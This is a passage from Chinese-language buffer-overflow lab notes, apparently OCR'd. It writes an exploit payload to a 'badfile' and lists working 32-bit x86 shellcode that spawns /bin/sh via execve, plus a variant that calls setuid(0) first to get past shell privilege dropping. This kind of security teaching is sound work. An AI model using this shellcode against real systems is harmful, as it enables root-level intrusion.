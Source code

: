 ```python

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

8.构造shellcode：使用execve()系统调用执行"/bin/sh"

要用到四个寄存器：

eax：保存11（execve()的系统调用号）

ebx：保存命令字符串的地址（/bin/sh的地址）

ecx：保存参数数组的地址

edx：保存想要传给新程序的环境变量的地址。可以设置为0

shellcode：

```python
shellcode= (
   "\x31\xc0"    # xorl    %eax,%eax
   "\x50"        # pushl   %eax
   "\x68""//sh"  # pushl   $0x68732f2f
   "\x68""/bin"  # pushl   $0x6e69622f
   "\x89\xe3"    # movl    %esp,%ebx     #给%ebx赋值
   "\x50"        # pushl   %eax
   "\x53"        # pushl   %ebx
   "\x89\xe1"    # movl    %esp,%ecx     #给%ecx赋值
   "\x99"        # cdq                   #给%edx赋值
   "\xb0\x0b"    # movb    $0x0b,%al     #给%eax赋值
   "\xcd\x80"    # int     $0x80         #调用execve()
).encode('latin-1')
```

9.

`gcc -S xxx` 生成汇编代码

10.突破bash和dash的保护机制
通过设置uid为0：

```python
shellcode= (
   "\x31\xc0"    # xorl    %eax,%eax
   "\x31\xdb"    # xorl    %ebx,%ebx
   "\xb0\xd5"    # movb    $0xd5,%al
   "\xcd\x80"    # int     $0x80
    #setuid(0)
   "\x31\xc0"    # xorl    %eax,%eax
   "\x50"        # pushl   %eax
   "\x68""//sh"  # pushl   $0x68732f2f
   "\x68""/bin"  # pushl   $0x6e69622f
   "\x89\xe3"    # movl    %esp,%ebx     #给%ebx赋值
   "\x50"        # pushl   %eax
   "\x53"        # pushl   %ebx
   "\x89\xe1"    # movl    %esp,%ecx     #给%ecx赋值
   "\x99"        # cdq                   #给%edx赋值
   "\xb0\x0b"    # movb    $0x0b,%al     #给%eax赋值
   "\xcd\x80"    # int     $0x80         #调用execve()
).encode('latin-1')
```
